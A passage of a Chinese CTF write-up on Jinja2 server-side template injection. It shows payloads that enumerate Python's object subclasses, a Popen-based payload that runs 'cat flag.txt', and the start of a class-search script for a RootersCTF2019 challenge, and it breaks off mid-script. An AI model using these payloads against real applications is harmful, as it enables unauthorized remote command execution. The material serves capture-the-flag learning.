 ![](https://mmbiz.qpic.cn/mmbiz_jpg/khmibjLuVibFATQWzl8oZtS71OoibYsUC2SFDh0FA1sSLVlAdnz8NcicibWmuNHCumGMIszl4ThNS8Vrz1mY9iavwibug/640?wx_fmt=jpeg)

可以看到存在 ssti

然后用循环语句打印 object 的所有子类

```
?name={% for i in ''.__class__.__base__.__subclasses__()%}{{loop.index}}{{i.__name__}}{%endfor%}
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/khmibjLuVibFATQWzl8oZtS71OoibYsUC2SbwhpwciaD21xQAnhEicvXhQmqibVMzMxib9EpuPsMRpSibcjm4gqcrib2Qqg/640?wx_fmt=jpeg)

我这里用了 {{loop.index}} 来获得类对应的索引，实际上获得的数组是从 0 开始的所以真实索引应该是这个数值减一

然后寻找可用的子类，我这里使用常见的 popen

![](https://mmbiz.qpic.cn/mmbiz_jpg/khmibjLuVibFATQWzl8oZtS71OoibYsUC2STtbHibXRsWrYvzBW0sX8Jzic1wZYwicicJhmlKk6UibH4JbPXBQ5BkAMwqQ/640?wx_fmt=jpeg)

构造语句

```
?name={{''.__class__.__base__.__subclasses__()[222](%27cat%20flag.txt%27,shell=True,stdout=-1).communicate()[0].strip()}}
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/khmibjLuVibFATQWzl8oZtS71OoibYsUC2SWuAvT0WQBVj5gsXOFLxXR1uDHlibwTqXRVVQ364nXGoyKhoEAxoSIicQ/640?wx_fmt=jpeg)

除了直接使用类方法外还有另一种方法，通过初始化类后通过 **func_globals** 或者 **globals** 获得全局变量（返回的是一个字典），或者通过**__builtins__**内建函数获取命令执行所需的函数如：

还是通过演示一下通过 **[RootersCTF2019]I_<3_Flask** 演示一下用__builtins 来达到命令执行

首先用一下大佬脚本找到可用类

```
def search(obj, max_depth):
    visited_clss = []
    visited_objs = []
    def visit(obj, path='obj', depth=0):
        yield path, obj
        if depth == max_depth:
            return
        elif isinstance(obj, (int, float, bool, str, bytes)):
            return
        elif isinstance(obj, type):
            if obj in visited_clss:
                return
            visited_clss.append(obj)
            #print(obj) Enumerates the objects traversed
        else:
            if obj in visited_objs:
                return
            visited_objs.append(obj)
        # attributes
        for name in dir(obj):
            try:
                attr = getattr(obj, name)
            except:
                continue
            yield from visit(attr, '{}.{}'.format(path, name), depth + 1)
        # dict values
        if hasattr(obj, 'items') and callable(obj.items):
            try:
                for k, v in obj.items():
                    yield from visit(v, '{}[{}]'.format(path, repr(k)), depth)
            except:
                pass
        # items
```